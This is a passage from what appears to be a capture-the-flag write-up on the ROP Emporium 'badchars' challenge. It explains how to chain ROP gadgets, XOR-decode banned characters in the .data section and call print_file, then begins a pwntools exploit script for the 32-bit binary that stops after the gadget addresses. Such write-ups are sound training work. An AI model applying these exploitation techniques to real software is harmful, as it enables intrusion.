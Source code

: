 64 bit architecture requires parameters inside the rdi register instead of being on the stack like the 32 bit architecture. We can search using **ROPgadget** for a gadget which will allow us pop rdi. A gadget for **pop rdi ; ret** exists so we can copy the address.

&nbsp;

<img src="../../../assets/img/badchars_img/22order.png" alt="order" width="750"/>

Finally, we can start to develop our exploit by working out the ordering. First, we will need to put our bypassing flag.txt string into the r12 register as well as the address of the .data section into the r13 register using our **pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret** gadget. We can then use our **mov QWORD PTR [r13+0x0],r12** gadget to write the string to the .data section.

Next, we will start a loop which will perform the converting of the valid characters into the banned characters we need to read the flag. We will need to fill the r14 register with the key for our XOR operating and the r15 register with the address of the .data section indexed at the byte we want to convert.

After converting it all, we can populate the rdi register with the address of the .data section and call the **print_file** function which will get its required argument from the rdi register. The flag is then output to the screen.

&nbsp;

<img src="../../../assets/img/badchars_img/21flag.png" alt="flag" width="750"/>

A python3 script was created to generate the payload and complete this exploit. It uses pwntools similar to the other challenges and as usual, will be available at the end of this post.

&nbsp;

## The 32 bit python script

```python
from pwn import *

##### SETUP & RUN #####

#Define the executable
exe = './badchars32'

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# verbose logging so we can see what is being sent
context.log_level = 'info'

#delete corefiles after crash occurs
context.delete_corefiles = True

# run the elf
io = process()

##### FIND USEFUL ADDRESSES #####

# Locate the functions/strings we need - either do this manually or using pwntools

# Address needed to put parameters in registers
datasection = 0x0804a018
mov_gadget = 0x0804854f
pop_gadget = 0x080485b9
flagstr = 0x2c2a6c66
txtstr = 0x74337465    # writing text to memory requires little endian so it can be converted to big
call_print_file = 0x08048538
junkaddr = 0x61616161
```